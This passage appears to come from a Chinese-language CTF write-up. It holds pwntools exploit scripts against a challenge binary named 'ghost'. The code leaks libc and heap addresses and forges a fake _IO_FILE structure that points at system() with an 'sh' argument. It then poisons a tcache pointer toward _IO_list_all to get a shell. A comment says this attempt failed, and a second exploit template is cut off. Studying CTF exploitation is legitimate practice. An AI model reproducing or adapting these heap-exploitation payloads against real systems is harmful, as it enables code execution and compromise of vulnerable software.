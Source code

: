 ```py
    undo()
# 0x7f3c88e32000 0x7f3c8904bce0
print_pinned()
# leak heap and libc
libc_and_heap = p.recv(14)
print(libc_and_heap)
libc_leak = u64(libc_and_heap[8:14].ljust(8,b"\x00"))
libc_base = libc_leak - 0x219ce0
heap_leak = u64(libc_and_heap[0:6].ljust(8,b"\x00"))
heap_base = heap_leak - 0x3930
print(hex(libc_base))
print(hex(heap_base))
for i in range(8):
    post('a'*0x110)

for i in range(7):
    post('b'*0x100) # 最后一次正好申请出来我们的堆块

# post fake iofile chunk
io_file_addr = heap_base + 0x2e60+0x10
io_file = b"  sh;"
io_file = io_file.ljust(0x20, b"\x00")
io_file += p64(1)+p64(2)
io_file = io_file.ljust(0x48, b"\x00")+p64(0)+p64(io_file_addr+0x100)
io_file = io_file.ljust(0x68, b"\x00")+p64(libc_base+libc.symbols["system"])
io_file = io_file.ljust(0x88, b"\x00")+p64(io_file_addr + 0x48) # todo modify this
io_file = io_file.ljust(0xa0, b"\x00")+p64(io_file_addr)
io_file = io_file.ljust(0xd8, b"\x00")+p64(libc_base + 0x1f3240)+p64(io_file_addr)
io_file = io_file.ljust(0xf0, b"\x00")
post(p64(0)*2+io_file)
print(hex(libc_base))
print(hex(heap_base))
# change pinned idx 由3到17
change_pinned_idx(0,2**64-14)
undo()
undo()
gdb.attach(p)
pause()
modify_pinned(p64((libc_base+libc.symbols["_IO_list_all"])^((heap_base+0x3830)>>12))+p64(0)) # 0x2e50
# fake iofile
post("a"*0x100)
post((p64(heap_base+0x2e70)).ljust(0x100,b"\x00")) # 只会冲掉 stderr

p.sendlineafter("> ", "7") # 这样 free 会出问题

p.interactive()
```
这个最后打不出来

### exp_dark_magic
```py
# 打函数指针的板子 可以先备下来
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
sc = process("./ghost")
def select(n):
    # sc.after("> ").sendline(str(n))
    sc.sendlineafter("> ", str(n))
def post(data: bytes | str):
    select(1)
    # sc.after("tweet >").sendline(data)
    sc.sendlineafter("tweet > ", data)
```